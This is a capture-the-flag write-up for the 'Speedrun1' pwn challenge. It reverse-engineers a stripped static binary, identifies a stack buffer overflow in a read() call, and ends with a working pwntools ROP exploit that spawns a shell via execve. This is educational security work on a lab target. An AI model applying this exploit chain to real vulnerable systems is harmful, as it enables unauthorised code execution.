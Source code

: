 # Speedrun1 (pwn)
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/c5cbe910-117a-438d-a71f-23cd0fd74428)  

statically linked, stripped executable...
Since the actual exploitation for this challenge is very similar to [simplecalc](./bkp16_simplecalc.md), I'll focus more on the reverse engineering and discovery process.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/6fd9c59b-d148-4950-a80e-15e227488124)   
The binary asks for our last words, and then gets sassy on us :(  
The fact that our input gets printed back to us made me think of a printf vulnerability, but it ended up not being the case.  
Let's take a look at it in ghidra  

## Reverse Engineering  
First things first let's look at the entry
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/114394cc-e13f-45be-bbcc-a8d05b58ca16)  

by linux conventions this should be `__libc_start_main` so we can start renaming variables  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/e1453ec0-1ad5-44bf-aee3-4a93974036ff)   
Let's take a look at main.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ad7fd730-9d26-4552-a08a-643addccadb9)  
There are a bunch of functions being called.  
First interesting one is `FUN_00400b4d`, which seems to just be printing to console   
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/9f152ac8-edb7-4fe2-9907-2142007d5dc6)   
Just from that function signature we can guess that it is either `printf` or `puts`  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/84ff975d-a9e5-4bd2-941b-3b87adee2f7d)  

`FUN_00400bae` seems to also just call `puts` and print some text.  

Therefore, the funciton that asks for input is in between them, `FUN_00400b60`
Main looks a bit better now:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/8195b97f-6242-4c21-b266-5b265232cc7f)  

Let's examine the function that gets input:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/968e789a-c9a7-41bc-a2d7-8bb6ba707b6d)  
If the first function is `puts`, then the other function that prints out our input must be `printf`  
Can you recognize the function signature of the function in the middle?  
Just from that I took an educated guess that it is the `read` function. This is because `read(0,buf,2000)` would correspond to `0 (file descriptor for stdin)`, write into our buffer, 2000 bytes of data.  
However, our buffer is 1024 bytes, so we have a buffer overflow.  

## Exploitation  
From here the process is incredibly similar to [simplecalc](./bkp16_simplecalc.md).  
1. Write padding until return address
2. Write `/bin/sh` to memory using ROP
3. Use ROP to populate registers with adecuate values and do a syscall to execve

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template speedrun-001
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'speedrun-001')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}

'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

#determined using gdb
padding = 1032*b'A'

rop = ROP(exe)

# we want to execute execve
# rax = 59
# rdi = pointer to /bin/sh
# rsi = 0
# rdx = 0

# Ropper found
#0x000000000048d251: mov qword ptr [rax], rdx; ret;

mov_qword_ptr = 0x48d251

# found using vmmap in gdb
write_addr = 0x6b6000
binsh_string = int.from_bytes(b'/bin/sh','little')

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI = (rop.find_gadget(['pop rsi', 'ret']))[0]
POP_RDX = (rop.find_gadget(['pop rdx', 'ret']))[0]
POP_RAX = (rop.find_gadget(['pop rax', 'ret']))[0]
SYSCALL = (rop.find_gadget(['syscall']))[0]

payload = padding

# write binsh into memory
payload += p64(POP_RDX) + p64(binsh_string) # load /bin/sh into rdx
payload += p64(POP_RAX) + p64(write_addr) # load memory address to rax
payload += p64(mov_qword_ptr) # execute the memory write

# call execve
payload += p64(POP_RAX) + p64(59) #syscall number for execve
payload += p64(POP_RDI) + p64(write_addr) # address of binsh string
payload += p64(POP_RDX) + p64(0) # populate regsiter
payload += p64(POP_RSI) + p64(0) # populate register

payload += p64(SYSCALL)

io.sendline(payload)
io.interactive()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/aaa4d8c6-2cea-4a70-bd76-8178f3bf9a12)



